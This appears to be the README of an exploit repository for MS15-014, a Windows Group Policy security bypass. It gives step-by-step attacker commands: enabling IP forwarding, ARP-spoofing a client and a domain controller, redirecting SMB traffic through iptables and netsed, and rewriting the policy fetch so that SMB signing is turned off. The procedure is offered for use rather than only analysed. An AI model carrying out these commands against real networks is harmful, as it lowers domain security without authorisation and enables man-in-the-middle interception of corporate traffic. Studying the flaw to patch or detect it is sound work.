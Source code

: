 # ms15-014
Exploit for MS15-014 Group policy security bypass

# About
This exploit will intercept the group policy call that tries to fetch the security policies. 
It will rewrite it so that it is no longer valid. In unpatched Windows versions (https://technet.microsoft.com/en-us/library/security/ms15-014.aspx) that have not installed the KB3004361 update the security settings will be reverted to the default non hardened settings.
This effectively disables SMB signing making your AD infrastructure vulnerable for successfull man in the middle attacks.
This vulnerability has been discovered by Luke Jennings from MWR Labs and he has an excellent blog about this vulnerability: https://labs.mwrinfosecurity.com/blog/how-to-own-any-windows-network-with-group-policy-hijacking-attacks/.
As far as I am aware there have been no exploits released to the public. It has been made available in the commercial Core Impact vulnerability assessment tool, but I could not find the original exploit as a public download.
So, therefore I decided to write one myself.

# Requirements
- Linux with root privileges (i.e. iptables and NFQUEUE rules)
- netsed installed (i.e. apt-get install netsed / yum install netsed)

# Usage
Lets assume the following usecase:

Windows 2008/2012 Domain Controller 192.168.1.1
Windows 8/8.1 domain joined client 192.168.1.2

We first need to create a valid MITM scenario so that we can intercept and alter the traffic.
So, lets assume that we have an attacker that has Kali Linux running on ip 192.168.1.3.
The attacker should do something like this:

- Enable IP Forwarding
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```
- Forward SMB2 traffic to NFQUEUE 1
```shell
iptables -I FORWARD -j NFQUEUE -p tcp --dport 445 --queue-bypass --queue-num 1
```
- Arp spoof the Windows client and the domain controller:
```shell
arpspoof 192.168.1.1 -t 192.168.1.2
arpspoof 192.168.1.2 -t 192.168.1.1
```
- Run program and get the netsed command once the group policies are fetched on the client
```shell
sniff_group_policy --i 192.168.134.11
```

If the Windows client tries to fetch the security policies the sniff_group_policy command will output a netsed command that can be used to revert all group policy security settings to the non safe defaults.
This can be manually triggered with the command:
```shell
gpupdate /force
```

Once you've identified the security UUID you should do the following:

- Flush existing iptables rules
```shell
iptables -F
```
- Run the netsed command that has been supplied by sniff_group_policy
- redirect SMB2 traffic to the netsed proxy
```shell
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 445 -j REDIRECT --to-port 446
```

Fetch the latest policies on the client with a gpupdate /force and you have lifted the SMB signing requirements.

# Confirming that it worked
If you run rsop.msc on the client you can verify this.
Go to Computer configuration -> Windows settings -> Security Settings -> Local Policies -> Security Options
The option Microsoft network client:Digitally sign communications (always) is no longer enabled.

# Video demonstrating this exploit
https://www.youtube.com/watch?v=N3zozQGNI-Q
